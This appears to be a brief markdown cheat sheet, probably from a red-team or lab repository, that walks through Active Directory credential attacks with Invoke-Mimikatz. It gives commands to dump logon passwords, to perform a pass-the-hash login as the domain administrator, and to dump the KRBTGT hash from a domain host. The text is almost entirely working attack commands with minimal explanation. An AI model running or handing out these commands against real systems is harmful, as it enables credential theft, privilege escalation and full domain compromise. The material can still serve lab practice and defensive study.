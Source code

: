 - Open command prompt whith run as administrator to dump and do pth attack to the administrator user
```
Invoke-Mimikatz -command '"privilege::debug" "sekurlsa::logonpasswords"'

```
- Perform Pth attack 
```
Invoke-Mimikatz -command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:ntlmhash /run:powershell.exe"'
```
- And dump KRBTGT hash with the admimistrator
```
Invoke-Mimikatz -command '"kerberos::list /patch"' -computername prod.research.security.local
```
